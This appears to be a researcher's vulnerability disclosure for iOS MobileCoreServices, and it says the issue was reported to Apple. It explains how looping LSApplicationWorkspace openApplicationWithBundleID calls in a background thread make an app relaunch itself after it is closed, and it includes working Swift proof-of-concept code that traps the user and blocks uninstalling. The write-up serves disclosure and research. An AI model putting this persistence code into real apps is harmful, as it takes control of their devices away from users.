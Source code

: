 ## Caller validation vulnerability in MobileCoreServices leading to a persistence exploit

Reported to apple, No CVE assigned yet!

### How I found it?

I was researching `MobileCoreServices`, specifically `LSApplicationWorkspace` and found it very interesting that you can use a couple of its methods without any entitlements. I stumbled over this because of my Nyxian project which is basically Xcode for iOS with app distribution functionalities and even auto launch after install. I was looking for a method to automatically open the apps. I've found what I was looking for...

```objc
- (BOOL)openApplicationWithBundleID:(id)arg1;
```

... tho this wasnt yet the moment I realised this potential vulnerability exists. First when I researched `LSApplicationWorkspace` more. I wanted to find a method that helps me determine if a app has been sucessfully installed on the device after sending the app using OTA methods to the device it self and insanely enough I found it...

```objc
- (id)installProgressForBundleID:(id)arg1 makeSynchronous:(unsigned char)arg2;
```

... this method allowed me to get a `NSProgress` object, when I then tried to apply a handler to it I got a error, it said that I cannot apply a handler to it because it belongs to a other process and additionally the app crashed. This made me think "If this is handled by a other process, then opening must be too"...

### Vulnerability

First I assumed that apple already accounted for this possibility given the time `MobileCoreServices` and `LSApplicationWorkspace` already exist, but to my suprise they didnt account for it. First I tried to loop call the function on my own BundleID. I expected the process handling the openage to already account for the callers presence and abort if the caller is not present anymore.

```swift
import SwiftUI
import Foundation

func pthread_dispatch(_ code: @escaping () -> Void) {
    var thread: pthread_t?
    let blockPointer = UnsafeMutableRawPointer(Unmanaged.passRetained(code as AnyObject).toOpaque())
    
    pthread_create(&thread, nil, { ptr in
        let unmanaged = Unmanaged<AnyObject>.fromOpaque(ptr)
        let block = unmanaged.takeRetainedValue() as! () -> Void
        block()
        return nil
    }, blockPointer)
}

struct ContentView: View {
  var body: some View {
    Text("You now have to force reboot now")
    .onAppear {
      // Get the workspace
      guard let workspace = LSApplicationWorkspace.default() else { return }
      
      // Make a background thread
      pthread_dispatch {
        // Make a loop
        while true {
          // This will request to open the app constantly
          workspace.openApplication(withBundleID: Bundle.main.bundleIdentifier)
        }
      }
    }
  }
}
```

After I ran the code I've discovered a few things..

- The user cannot close the app without the app being relaunched again
- The user cannot interact with their device properly(eg. If they return to home they get thrown back into the app exploiting the vulnerability)
- The user cannot uninstall the app because of the small time frame they can dismiss the app.

The most insane about this is obviously "The user cannot close the app without the app being relaunched again", why? because it violates iOS core assumptions such as if a user closes a app it stays closed, but this basically proves that we can exploit this vulnerability in a reliable way to reincarnate the app after the user closed it.

###### Restart a iOS app programatically

I thought a bit further and thought about another topic, well iOS doesnt allow you for example to programatically restart your app. I thought about why this even works. And I just tried something out and it didnt worked yet, but read further.

```swift
import SwiftUI
import Foundation

struct ContentView: View {
  var body: some View {
    Button("Restart App") {
      // Get the workspace
      guard let workspace = LSApplicationWorkspace.default() else { return }
      
      // Start a background thread that attempts to reopen the currently opened app constantly
      pthread_dispatch {
        while true {
          workspace.openApplication(withBundleID: Bundle.main.bundleIdentifier)
        }
      }
      
      // Now attempt to exit
      exit(0)
    }
    Text("Process ID: \(getpid())")
  }
}
```

Expectedly this did not worked or the sucess rate was pretty bad, but then I attempted something differently and I was stunned by this dicovery. It turns out the sucess rate of restarting your own app using this vulnerability increases the longer the loop occurs. So i changed...

```swift
exit(0)
```

To this...

```swift
pthread_dispatch {
  // wait 0.2 seconds
  Thread.sleep(forTimeInterval: 0.2)
  // now exit the app
  exit(0)
}
```

Using this I made the implementation for restarting the iOS app it self reliable.

### How does it work?

It works because of improper checks of the `lsd` (Launch Services Daemon) which is responsible for managing requests of opening applications via the `MobileCoreServices` framework, specifically when invoking `- (BOOL)openApplicationWithBundleID:(id)arg1;` your app is giving the request to `lsd` which then manages to open the app, so where is the problem... when ur doing it in a while loop and in a background thread you dont wait on the return of this method and can simply continue code execution without waiting on its return which apple didnt accounted for, although this is a common security concern. What then happens is that if we call `exit(0)` the `lsd` process is still processing the request. When your app then gets terminated by your own `exit(0)` call `lsd` fails to address that and continues with opening your own app although terminated which results in the app self relaunching.

### Why is this dangerous?

A attacker could use this vulnerability maliciously to bypass the user interaction of killing the attackers app using the app switcher and bypassing the users attempt to uninstall the app(which is a side-effect cause of the self-open which dismisses the uninstallation menu) and additionally stay opened for ever, no matter what the user does, which leads to a malicious **persistence exploit**. Additionally as the opening of the app is a side-effect it's super annoying. It's also a privacy concern as data can be exfiltrated without the users consent. And the vulnerability could be used in a chain to ensure the user cannot escape a certain hacking attempt of their phone.




